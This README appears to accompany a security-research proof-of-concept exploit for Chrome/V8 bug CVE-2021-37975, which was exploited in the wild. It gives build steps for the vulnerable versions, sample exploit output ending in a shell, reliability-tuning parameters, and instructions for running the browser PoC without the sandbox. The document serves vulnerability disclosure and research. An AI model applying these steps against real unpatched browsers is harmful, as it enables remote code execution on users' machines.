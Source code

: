 ## Chrome in-the-wild bug CVE-2021-37975

The analysis of this bug can be found [here](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_37975). This is a Chrome bug that is reported by an anonymous researcher and was believed to be exploited in the wild.

The exploit `poc.js` is tested on `v8` version 9.4.146.16 (commit `452f57b`), which is the version shipped with Chrome 94.0.4606.61, the one before the bug was fixed, on Ubuntu 20.04. It is tested on two different desktop devices with different specs.

To test, check out `v8` at commit `452f57b` and compile with the default settings using `tools/dev/gm.py x64.release`. Then open the file `poc.js` with `d8`:

```
./d8 poc.js
```

On Ubuntu 20.04, it should call `execve("/bin/sh")` to spawn a new process:

```
./d8 poc.js
fail to find object address.
fail to find object address.
fail to find object address.
fetch failed
fail to find object address.
fail to find object address.
fetch failed
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
found instance address: 0x81d40f5 at index: 0
array address: 0x804294d
array element address: 0x8042935
fake array at: 8 index: 0
rwx address at: 0x28c7931bc000
fake array at: 8 index: 1
rwx address at: 0x28c7931bc000
shellArray addr: 0x8048d75
$ 
```

Shell code and some offsets may need changing on other platforms.

The exploit is fairly reliable, (> 80% success rate on the two tested devices). The variable `gcSize` may need changing depending on the device, and the variable `mapAddr` also depends on the version of v8 (it is an offset). Changing the variable `sprayParam` may also improve the reliability. The current parameter seems to give reasonable reliability across the two devices tested. The `gcSize` parameter should be ok for desktop devices, but may need changing for devices with low memory (e.g. mobile)

The Chrome poc are the files `chrome_poc_parent.html` and `chrome_poc_child.html`. It is tested with Linux build 94.0.4606.61 (commit `c3f0a75`) on Ubuntu 20.04, with the following parameters:

```
is_debug = false
symbol_level = 2
blink_symbol_level = 2
dcheck_always_on = false
is_official_build = true
chrome_pgo_phase = 0
```

To build this, I have to comment out part of a script `chrome/browser/resources/tools/optimize_webui.py` to fix the build:

```
@@ -178,16 +178,16 @@ def _bundle_v3(tmp_out_dir, in_path, out_path, manifest_out_path, args,
                                             manifest_out_path)
   assert len(generated_paths) == len(bundled_paths), \
          'unexpected number of bundles - %s - generated by rollup' % \
          (len(generated_paths))
 
-  for bundled_file in bundled_paths:
-    with open(bundled_file, 'r') as f:
-      output = f.read()
-      assert "<if expr" not in output, \
-          'Unexpected <if expr> found in bundled output. Check that all ' + \
-          'input files using such expressions are preprocessed.'
+#  for bundled_file in bundled_paths:
+#    with open(bundled_file, 'r') as f:
+#      output = f.read()
+#      assert "<if expr" not in output, \
+#          'Unexpected <if expr> found in bundled output. Check that all ' + \
+#          'input files using such expressions are preprocessed.'
 
   return bundled_paths
 
 def _optimize(in_folder, args):
   in_path = os.path.normpath(os.path.join(_CWD, in_folder)).replace('\\', '/')
```

This part seems to be doing some sanity checks of some generated config files related to webui, so I don't expect it to affect the exploit.

The Chrome exploit should be 100% reliable by using different origin `iframe` to avoid crashing the parent frame. (Idea similar to the one in "Making a Stealth Exploit by abusing Chrome's Site Isolation" in [this article](https://blog.exodusintel.com/2019/01/22/exploiting-the-magellan-bug-on-64-bit-chrome-desktop/?fbclid=IwAR0WiWjsUnun8AuipENIUCMwTvWl35I7rAgsTflQTecmazElNoCAYvm0BsA) of Ki Chan Ahn, but on a smaller scale) The parent frame will reset the child frame every 5 seconds and change its origin to make sure it starts fresh, during which it'll print out `resetChild` on the page. It should not take too many attempts to succeed and will pop `xcalc` on Ubuntu. To test it, host these pages at `127.0.0.1`, `127.0.0.2` and `127.0.0.3`:

```
python3 -m http.server --bind 127.0.0.1
python3 -m http.server --bind 127.0.0.2
python3 -m http.server --bind 127.0.0.3
```
Then launch Chrome built with the above instructions with the `--no-sandbox` flag:

```
./chrome --user-data-dir=/tmp/chromium_data --no-sandbox
```

Then open `localhost:8000/chrome_poc_parent.html` and wait. It should pop `xcalc` within a few trials.
